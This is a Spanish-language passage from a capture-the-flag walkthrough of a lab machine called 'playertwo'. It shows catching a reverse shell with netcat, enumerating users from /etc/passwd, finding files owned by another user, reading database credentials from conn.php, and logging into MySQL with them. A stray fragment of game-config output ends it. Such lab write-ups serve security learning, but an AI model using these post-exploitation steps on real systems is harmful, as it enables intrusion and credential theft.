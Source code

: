 Recibo la reverse shell en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.170] 36888
bash: cannot set terminal process group (1100): Inappropriate ioctl for device
bash: no job control in this shell
www-data@playertwo:/var/www/product/protobs$ 
```

Hay dos usuarios en el sistema

```null
www-data@playertwo:/$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
observer:x:1000:1000:observer:/home/observer:/bin/bash
egre55:x:1001:1001::/home/egre55:/bin/sh
```

Busco por archivos cuyo propietario sea ```observer```

```null
www-data@playertwo:/$ find \-user observer -ls 2>/dev/null
    73817      4 drwxr-xr-x   6 observer observer     4096 Sep 15  2022 ./home/observer
    80545      4 drwx------   2 observer observer     4096 Sep 15  2022 ./home/observer/.ssh
    71304      0 lrwxrwxrwx   1 observer observer        9 Sep  5  2019 ./home/observer/.bash_history -> /dev/null
    73835      4 -rw-r--r--   1 observer observer     3771 Apr  4  2018 ./home/observer/.bashrc
    71306      4 -r--------   1 observer observer       33 Jun 14 08:41 ./home/observer/user.txt
    80543      4 drwx------   3 observer observer     4096 Sep 15  2022 ./home/observer/.gnupg
    73836      4 -rw-r--r--   1 observer observer      220 Apr  4  2018 ./home/observer/.bash_logout
    73837      4 -rw-r--r--   1 observer observer      807 Apr  4  2018 ./home/observer/.profile
    80587      4 drwxr-x---   2 observer observer     4096 Sep 15  2022 ./home/observer/Development
    83595      4 drwx------   2 observer observer     4096 Sep 15  2022 ./home/observer/.cache
```

Encuentro un archivo de conexión a la base de datos

```null
www-data@playertwo:/var/www/product$ cat conn.php 
<?php
$conn=mysqli_connect("localhost","dev","devdb","dev");
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Me conecto al ```mysql```

```null
www-data@playertwo:/var/www/product$ mysql -udev -p'devdb'
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 197
Server version: 5.7.28-0ubuntu0.18.04.4 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

 [ Game                ]: test
 [ Config Index    ]: test
  [ Game                ]: test
  [ Contrast            ]: 0
  [ Gamma               ]: 0
  [ Resolution X-Axis   ]: 0
  [ Resolution Y-Axis   ]: 0
  [ Controller          ]: 0
 [ Config Index    ]: test